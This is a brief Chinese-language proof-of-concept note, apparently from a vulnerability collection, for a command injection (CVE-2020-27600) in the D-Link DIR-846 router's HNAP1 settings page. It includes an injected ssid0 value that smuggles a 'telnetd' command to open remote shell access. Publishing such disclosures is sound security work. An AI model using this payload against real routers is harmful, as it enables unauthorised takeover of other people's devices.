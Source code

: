 # D-Link DIR-846路由器 命令注入 (CVE-2020-27600)

D-Link DIR-846 A1_100.26 路由器中的HNAP1/control/SetMasterWLanSettings.php允许远程攻击者通过ssid0或ssid1参数进行执行任意命令。

PoC:

需要登录Web控制台，然后访问/Wireless.html无线设置页面。


```bash
POST  /HNAPI HTTP/1.1
...
$data["ssid0"]="'x;telnetd;'"
```

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2020-27600
* https://github.com/pwnninja/dlink/blob/main/DIR-846_SetMasterWLanSettingsCI.md
